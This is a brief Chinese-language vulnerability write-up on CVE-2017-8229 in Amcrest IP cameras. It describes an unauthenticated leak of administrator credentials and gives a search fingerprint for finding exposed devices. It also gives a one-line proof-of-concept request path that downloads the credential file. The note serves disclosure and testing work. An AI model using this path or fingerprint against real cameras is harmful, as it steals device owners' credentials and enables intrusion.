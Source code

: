 # Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

## 漏洞描述

Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

## 漏洞影响

```
Amcrest Technologies. Amcrest IP Camera Web all
```

## 网络测绘

```
"Amcrest"
```

## 漏洞复现

登录页面

![image-20220519161504045](images/202205191616449.png)

POC

```
/current_config/Sha1Account1
```

![image-20220519161546887](images/202205191616340.png)